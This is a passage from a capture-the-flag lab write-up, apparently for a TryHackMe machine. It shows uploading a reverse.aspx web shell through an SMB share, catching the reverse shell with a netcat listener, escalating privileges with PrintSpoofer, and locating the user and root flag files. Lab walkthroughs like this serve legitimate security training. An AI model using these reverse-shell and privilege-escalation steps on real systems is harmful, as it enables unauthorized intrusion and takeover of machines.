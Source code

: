 Now send that into smb share
```
smbclient  \\\\10.201.26.218\\nt4wrksv
```

then put the file into it 
```
put reverse.aspx
```

now  run a netcat listener
```
nc -nlvp 53
```

and got to the website and run this url
```
http://relevent.thm:49663/nt4wrksv/reverse.aspx
```


Boom U got a reverse shelll

<img width="597" height="132" alt="image" src="https://github.com/user-attachments/assets/3d47426e-bc1d-474c-a0fb-8451768da698" />


---
#### Privilege Escalation


Using a tool called 
```
PrintSpoofer.exe
```


sending that through the smb share like we send the reverse.aspx


and run the cmd 
```
PrintSpoofer.exe -i -c cmd

```



BOOM!!!



We got Privilege now find the flags 

User.txt flag found in 
```
C:\Users\Bob\Desktop\user.txt
```
Root.txt found in
```
C:\Users\Administrator\Desktop\root.txt
```


---